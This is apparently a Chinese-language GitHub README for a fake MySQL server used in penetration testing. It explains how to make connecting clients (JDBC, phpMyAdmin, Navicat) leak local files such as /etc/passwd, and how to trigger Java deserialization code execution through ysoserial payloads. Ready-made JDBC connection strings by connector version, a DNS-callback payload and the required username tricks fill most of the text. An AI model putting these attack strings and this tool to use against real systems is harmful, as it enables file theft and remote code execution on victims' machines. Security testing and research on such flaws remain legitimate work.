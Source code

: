 # MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持ServerStatusDiffInterceptor和detectCustomCollations两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 运行：`python server.py`
6. config.ini中预置了一部分配置信息

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：https://www.anquanke.com/post/id/203086，用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同):**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：**同上，但是需要连接后执行查询。

- **5.0.x:**还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上:**不可用

- **5.1.29-5.1.40:**`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：**不可用

- **5.0.x版本不可用**

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data